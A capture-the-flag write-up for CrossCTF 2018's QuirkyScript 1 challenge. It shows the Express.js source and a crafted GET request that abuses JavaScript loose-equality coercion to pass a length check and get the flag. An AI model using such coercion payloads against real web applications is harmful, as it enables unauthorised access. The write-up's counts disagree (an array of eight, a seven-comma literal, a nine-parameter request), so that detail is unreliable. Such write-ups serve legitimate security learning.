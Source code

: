 # Crossctf 2018 Qualifier Writeups

## Web
QruirkyScript 1 - 5 were do-able by referncing the truthy table from: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Equality_comparisons_and_sameness

### QuirkyScript 1
```
var flag = require("./flag.js");
var express = require('express')
var app = express()

app.get('/flag', function (req, res) {
    if (req.query.first) {
        if (req.query.first.length == 8 && req.query.first == ",,,,,,," ) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});

app.listen(31337)
```

The following condition must be met: Length = 8 and variable must be ',,,,,,,'. To achieve this, an empty array of size 8 will match the length 8, and the empty commas in the array will be treated as a string of commas when the following is passed in: [,,,,,,,]

Therefore, to achieve this, the following get request will fulfill the conditions: ~~~http://target/flag?first=&first=&first=&first=&first=&first=&first=&first=&first=~~~
